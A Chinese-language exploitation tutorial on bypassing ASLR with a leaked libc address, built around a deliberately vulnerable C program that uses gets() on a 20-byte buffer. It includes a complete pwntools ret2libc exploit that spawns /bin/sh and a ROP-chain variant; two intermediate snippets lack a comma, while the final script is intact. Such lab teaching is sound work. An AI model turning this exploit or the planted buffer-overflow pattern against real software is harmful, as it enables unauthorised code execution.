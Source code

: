 ```yaml
---
title: '利用已泄漏信息绕过 ASLR'
date: '2023-08-23'
lastmod: '2023-08-23'
tags: ['PWN', 'Stack']
draft: false
summary: '绕过 ASLR'
authors: ['default']
---
```


## 0x01 源码

LINK

```c:source.c
#include <stdio.h>
#include <stdlib.h>

void vuln() {
  char buffer[20];

  printf("System is at: %lp\n", system);

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

就像我们对 PIE 所做的那样，只不过这次我们输出 `system` 的地址。

## 0x02 分析

```
$ ./vuln-32
System is at: 0xf7c4f610
```

<Note>
  你的系统地址可能以不同的字符结尾。但这只是说明你用的是不同的 libc 版本。
</Note>

## 0x03 利用

其中大部分与我们对 PIE 所做的一样。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

解析 `system` 地址并从中计算 libc 基址（就像我们对 PIE 所做的那样）。

```python
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')
```

现在我们终于可以使用 libc ELF 对象来实现 `ret2libc` 了。

```python
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

LINK

自己尝试 :)

## 0x05 使用 pwntools 优化

```python
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
```

你可以将上面的 payload 写得更加 pwntoolsy。

```python
shell = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(shell)

p.sendline(rop.chain())
```

这样做的好处是更具可读性，而且也更容易在 64-bit 漏洞利用中重用。因为所有参数都会自动为你解析。


